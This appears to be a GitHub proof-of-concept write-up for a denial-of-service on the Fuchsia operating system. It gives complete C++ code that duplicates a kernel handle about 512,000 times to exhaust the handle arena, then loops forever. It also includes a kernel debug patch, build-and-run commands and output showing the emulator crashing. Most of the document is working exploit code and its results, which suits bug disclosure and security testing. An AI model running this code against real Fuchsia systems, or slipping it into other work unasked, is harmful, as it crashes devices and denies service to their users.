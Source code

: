 # Dos on Fuchsia

May only take you 1 min.

## Set-up


Replace "/examples/hello_world/cpp/helloworld.cc" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 512\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

    #include  <zircon/syscalls.h>
	#include  <iostream>
	#define  max_num  512*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		std::cout  <<  "Hello, Worldddddd!\n";
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open four terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --cache --with //example/hello_world
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 4
	

   ```
$ ffx component run fuchsia-pkg://fuchsia.com/hello-world#meta/hello-world-cpp.cm
```

## Result
Warnning in Terminal 2, on my machine the FEMU will crash. 
If you set the 'max_num' value to a small value like 10 in hello_world.cc, the FEMU can still work with the hello_world component.

```
PID      TID      TIME%  CPU STATE NAME
59937    59939      99.99    3   run hello-world-cpp.cm:initial-thread
26905    26907       0.46    0 block ptysvc.cm:initial-thread
36894    37138       0.45    0 block netstack.cmx:pthread_t:0x18720985b18
 6658     7948       0.43    2 block driver_host:composite-device:virtio-net-irq-worker
54060    54062       0.38    2 block /pkg/bin/sshd:initial-thread
77419    77421       0.36    0   run top:initial-thread
36894    37148       0.35    2 block netstack.cmx:pthread_t:0x90d20f1b18
36894    37161       0.27    2 block netstack.cmx:pthread_t:0x1e2b9737b18

```

